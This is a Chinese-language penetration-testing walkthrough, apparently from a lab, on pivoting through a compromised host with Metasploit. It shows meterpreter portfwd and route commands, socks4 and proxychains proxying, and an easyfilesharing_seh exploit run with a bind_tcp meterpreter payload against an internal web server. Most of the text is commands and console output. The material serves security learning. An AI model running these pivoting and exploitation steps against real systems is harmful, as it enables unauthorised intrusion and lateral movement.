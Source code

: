 Attention:可以选择使用proxychains设置Attacker的浏览器的代理为Attacker的1080端口的socks4代理入口,也可通过在RD的meterpreter会 话中运行portfwd模块命令,portfwd命令如下:

```
meterpreter &gt; portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20[*] Local TCP relay created: 172.16.0.20:2323 &lt;-&gt; 7.7.7.20:80meterpreter &gt;
meterpreter &gt; portfwd listActive Port Forwards
====================
   Index  Local             Remote       Direction
   -----  -----             ------       ---------   1      172.16.0.20:2323  7.7.7.20:80  Forward1 total active port forwards.
meterpreter &gt;
```

通过访问Attacker的2323端口访问JC的80端口,结果如下:

[![](./img/85580/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01666c8a995bf2024a.png)

这里的portfwd模块不只是名字上的端口转发的意思,目前笔者认为portfwd相当于半个ssh正向代理加一个ssh反向代理组成的综合命令,ssh正向反向代理可参考这里的理解 。ssh正向反向代理理解笔者认为portfwd命令之后Attacker可以通过访问Attacker本身ip的2323端口进而访问到JC的80端口期间发生了3件事。

1.RD访问JC的80端口,这里相当于半个ssh正向代理

2.RD绑定已经访问到的JC的80端口的数据到Attacker的2323端口,这里相当于一个ssh反向代理,相当于RD有Attacker的ssh权限

3.攻击者的浏览器访问攻击者自己的172.16.0.20:2323

portfwd的用法如下:

```
meterpreter &gt; portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L &gt;opt&gt;  The local host to listen on (optional).
     -h        Help banner.
     -l &gt;opt&gt;  The local port to listen on.
     -p &gt;opt&gt;  The remote port to connect on.
     -r &gt;opt&gt;  The remote host to connect on.
meterpreter &gt;
```

其中-L只能设置为攻击者的ip,不能设置为肉鸡的ip,-L设置的ip可以是攻击者的内网ip,-r也可以是目标的内网ip,两个内网之 间通过meterpreter会话的"隧道"来连通,如果-L后设置的ip是攻击者的内网ip,-r后设置的是目标机器的内网ip,portfwd通过 meterpreter会话连通两台,-l是指攻击者的监听端口,运行完上面的portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20 命令后,Attacker的2323端口将变成监听状态(也即Attacker会开启2323端口) 这里还要注意route add命令只能是在meterpreter会话中有效,不能系统全局有效,笔者认为route add也是通过meterpreter会 话的"隧道"来实现攻击者能够访问目标机器其他网段机器的,也即在上面的Attacker通过portfwd来实现访问目标机器其他网段 机器而不能因为在portfwd模块运行前由于已经运行了route add模块而由Attacker的浏览器直接访问目标7.7.7.20:80,因为 route add只会给msf的模块提供meterpreter会话通道作为代理服务,只有meterpreter会话下可用的模块可以直接访问7.7.7.x 网段,Attacker的浏览器想直接访问7.7.7.20需要使用proxychins和msf开启的sock4代理.

上面访问得到目标机器JC的80端口信息看出JC运行的是Eash File Sharing Web Server,可用msf中的模块尝试getshell,操作如 下(如果没有在meterpreter中添加路由msf是访问不到7.7.7.20的):

```
msf  &gt; use exploit/windows/http/easyfilesharing_seh 
msf exploit(easyfilesharing_seh) &gt; show options 
Module options (exploit/windows/http/easyfilesharing_seh):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  80               yes       The target port
Exploit target:
   Id  Name
   --  ----
   0   Easy File Sharing 7.2 HTTP
msf exploit(easyfilesharing_seh) &gt; set rhost 7.7.7.20
rhost =&gt; 7.7.7.20msf exploit(easyfilesharing_seh) &gt; set payload windows/meterpreter/bind_tcp
payload =&gt; windows/meterpreter/bind_tcp
msf exploit(easyfilesharing_seh) &gt; run
[*] Started bind handler
[*] 7.7.7.20:80 - 7.7.7.20:80 - Sending exploit...
```